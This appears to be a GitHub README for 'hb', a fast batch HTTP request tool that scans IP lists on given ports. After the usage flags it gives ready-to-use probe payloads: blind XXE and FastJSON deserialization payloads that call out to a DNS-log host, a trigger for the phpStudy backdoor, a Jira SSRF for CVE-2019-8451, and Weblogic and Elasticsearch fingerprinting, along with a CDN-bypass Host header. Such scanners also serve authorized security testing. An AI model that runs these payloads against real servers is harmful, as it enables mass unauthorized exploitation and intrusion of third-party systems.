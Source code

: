 # hb

Fast http batch request tool 


## Installing
```
bash build.sh
```

## Example 

### Load File Target
```
./hb -f ips.txt -p 80
```

### Add HTTP Header
```bash
-H "Host: bypasscdn"
```

### Show ProgressBar
```bash
-pg
```

### Follow redirect (30x)
```bash
-redirect
```

### Filter Response Body
```bash
-grep "admin"
```

### Filter Response Header (X-Powered-By ContentType Title)
```bash
-filter "nginx"
```

### Filter Response Status Code
```bash
-code 2 # 2xx
```

### Show Resposne Body 
```bash
-response
```

### Shuffle Request
```bash
-random
```

### Send Post Request
```bash
-body "a=1&b=2&c=2"

# post body from file
-bodyfile ./exploit
```

### Send PUT Request
```bash
-method PUT
```

### Show Request Error
```
-debug 
```

---

### Elasticsearch
```bash
-p 9200 -path "/_cat" -grep "/_cat/allocation"
```

### PHPINF0
```bash
-path /phpinfo.php -code 2 -grep 'PHP Version' -regexp 'PHP Version(.*?)<'
```

### XXE Blind
```bash
-body '<?xml version="1.0"?><!DOCTYPE ANY [<!ENTITY remote SYSTEM "http://{{hostname}}.dnslog/">]><x>&remote;</x>' -replace
```

### FastJSON Blind
```bash
-H "Content-Type: application/json" -body '{"@type": "java.net.InetAddress", "val":"{{hostname}}.dnslog"}' -replace -redirect
```

### Weblogic fingerprint
```bash
-p 7001 -H "Authorization: Basic" -code 401
```

### phpStudy Backdoor
```bash
-H "Accept-Charset: cGhwaW5mbygpOwo=" -H "Accept-Encoding: gzip,deflate" -grep 'PHP Version' -regexp '<tr><td class="e">disable_functions</td><td class="v">(.*?)</td>' -redirect
```

### CVE-2019-8451 Jira SSRF
```bash
-path "/plugins/servlet/gadgets/makeRequest?url={{scheme}}://{{host}}@baidu.com/" -H "X-Atlassian-Token: no-check" -replace -grep "www.baidu.com" -regexp '<meta name="ajs-version-number" content="(.*?)">' -redirect
```


